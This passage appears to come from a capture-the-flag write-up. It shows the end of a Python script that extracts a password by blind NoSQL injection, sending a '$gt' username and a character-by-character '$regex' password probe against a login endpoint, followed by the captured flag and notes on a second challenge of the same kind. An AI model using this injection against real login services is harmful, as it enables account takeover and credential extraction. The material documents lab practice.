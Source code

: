 ```python
}

response = requests.post(url, json=data, headers=headers, cookies=cookies)

while True:
	i = 0
	char = alpha_num[i]
	print(f"Trying char {char}......")
	data = {
	"username": {"$gt":""},
	"password": {"$regex": f"^{flag}{char}"}
	}
	response = requests.post(url, json=data, headers=headers, cookies=cookies)

	while response.status_code != 200:
		i += 1
		char = alpha_num[i]
		if (i % 15 == 0):
		print(f"Trying char {char}......")
		data = {
		"username": {"$gt":""},
		"password": {"$regex": f"^{flag}{char}"}
		}
		response = requests.post(url, json=data, headers=headers, cookies=cookies)
		
	print(f"Found char: {char}")

	if len(char) == 3: # is an escaped regex operator
		flag += char[2]
	else:
		flag += char
	
	print(f"Flag is now: {flag}")
	if char == "}": break

  
print("Status Code:", response.status_code)
print("Response Body:")
print(response.text)
print(f"Flag is: {flag}")
```
- flag{n0_w4y_y0u_f0und_sup3r_s3cr3t_p4ssw0rd_n0w_try_t0_h4ck_n4s4_0000000000000000}


## 🟢 Nuclear Code Break-In (100)
- Topic: No-SQL - Blind
- Goal: infiltrate as admin
- Initial observations
	- Login
		- Try logging in with an account I registered > inspect the POST request > the browser automatically wraps input for username and password each in quotes (sent as strings)
		- I think I need to write a Python script to send the payload as {}
	- Register
		- username
		- password
		- email 
		- description
		- ^ how are these used?
		- ^ what if I try to register as admin?
			- "Username already exists" 500 Status Code
				- This is info I can use? Wait actually, I should be going to login and blind-sql? But why would they give me a register page then?
	- Profile (Only after login) 